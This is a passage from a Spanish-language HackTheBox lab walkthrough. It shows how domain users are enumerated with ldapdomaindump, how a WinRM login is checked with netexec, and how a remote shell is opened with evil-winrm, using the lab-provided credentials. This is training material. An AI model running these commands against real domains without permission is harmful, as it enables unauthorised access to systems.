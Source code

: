 ```bash
ldapdomaindump -u 'administrator.htb\Olivia' -p 'ichliebedich' 10.10.11.42 -o ldap
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Revisando el archivo "domain\_users.html" verificamos que el usuario que disponemos forma parte del grupo "Remote Management Users", con el cual podríamos conectarnos al DC a través de WinRM, PsExec, etc.

<figure><img src="../../.gitbook/assets/2518_vmware_q1EDJinRJG.png" alt=""><figcaption></figcaption></figure>

## Abusing WinRM

Procederemos a acceder al WinRM a través de **evil-winrm** con el usuario que nos proporciona _HackTheBox_ y hemos comprobado que forma parte del grupo "Remote Management Users".

```bash
netexec winrm 10.10.11.42 -u 'Olivia' -p 'ichliebedich'

evil-winrm -i 10.10.11.42 -u 'Olivia' -p 'ichliebedich'
```
